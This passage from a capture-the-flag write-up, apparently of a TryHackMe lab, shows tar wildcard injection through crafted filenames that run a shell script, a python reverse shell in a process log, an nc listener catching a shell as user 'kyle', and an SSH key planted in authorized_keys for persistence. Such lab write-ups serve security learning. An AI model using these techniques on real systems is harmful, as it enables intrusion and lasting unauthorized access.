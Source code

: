 ```
eGVGlW0W.pdf 15082022-DTZ1NAwap2F4LocHf3WW.pdf 15082022-gqyhTtave0wn8otRJ9Vi.pdf 15082022-H5bpwT5GsrZdlAIxc36u.pdf 15082022-lbJhTcwuHeh32kHs0pOB.pdf 15082022-qTt1Xl2wQpeZFR85xpDc.pdf 15082022-rOJ4ZampV4HGMsah95l
6.pdf 15082022-VcT2uo31DQcrvpCgIcj9.pdf 15082022-WBIyrN28cWOoYfAoPZVZ.pdf 15082022-WScCqk4Cq43M4xTAn0F6.pdf 18042022-lUIvPaOVZIJQarZO7wHP.pdf 18042022-SZEAfjkefOWOLzNG0nBF.pdf 18042022-x7nvKzdxwDPtGvg3hexH.pdf 1
9042022-P8SghZ3qVclByyfsSm4c.pdf 19042022-RuQkG8SZaxQc6vyw7BCv.pdf 22042022-NNod4XQ0usiYmPZOVASm.pdf --checkpoint=1 --checkpoint-action=exec=cat shell.sh | bash get_kyle.sh shell.sh 
2022/08/15 20:03:01 CMD: UID=1000 PID=51535  | /bin/sh -c cat shell.sh | bash 
2022/08/15 20:03:01 CMD: UID=1000 PID=51534  | /bin/sh -c cat shell.sh | bash 
2022/08/15 20:03:01 CMD: UID=1000 PID=51536  | /bin/sh -c gzip 
2022/08/15 20:03:01 CMD: UID=1000 PID=51537  | python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((
```

```
nc -lvnp 5555
Listening on 0.0.0.0 5555
Connection received on 10.10.2.70 50302
$ whoami
whoami
kyle
```

Now, to easily operate on next step to root let's inject our public ssh key into authorized\_keys of kyle:

```
ssh-keygen     
Generating public/private rsa key pair.
Enter file in which to save the key (<redacted>/.ssh/id_rsa): <redacted>/thm/sea_surfer/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in <redacted>/sea_surfer/id_rsa
Your public key has been saved in <redacted>/sea_surfer/id_rsa.pub
The key fingerprint is:
SHA256:71LZkiud4BcA2Ezayr4+piwvapIQU/mT4QnvkWnCfLQ appsec-engineer@N00000518
The key's randomart image is:
+---[RSA 3072]----+
|   . =.          |
|  + +o+          |
| + *.B..         |
|o +.E.  .        |
| o =oo  S. +     |
|.  ..   ..* .    |
|..  .  . +.=     |
|=o  o.  +.=      |
|=+++o.   +.      |
+----[SHA256]-----+
```

```
echo 'ssh-rsa <redacted>' > ~/.ssh/authorized_keys
```

